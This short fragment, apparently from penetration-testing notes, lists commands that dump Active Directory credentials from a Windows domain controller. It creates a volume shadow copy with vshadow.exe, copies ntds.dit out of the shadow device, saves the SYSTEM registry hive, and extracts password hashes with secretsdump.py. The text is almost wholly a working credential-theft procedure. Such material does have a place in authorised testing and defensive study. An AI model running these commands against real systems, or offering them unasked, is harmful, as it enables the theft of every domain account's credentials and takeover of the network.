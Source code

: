 ```powershell
vshadow.exe -nw -p  C:
```

```powershell
copy \\?\GLOBALROOT\Device\$DEVICE_NAME\windows\ntds\ntds.dit c:\ntds.dit.bak # $DEVICE_NAME can be find as "Shadow copy device name" in the previous command result
```

```powershell
reg.exe save hklm\system c:\system.bak
```

```shell
secretsdump.py -ntds ntds.dit.bak -system system.bak LOCAL # On exegol
```
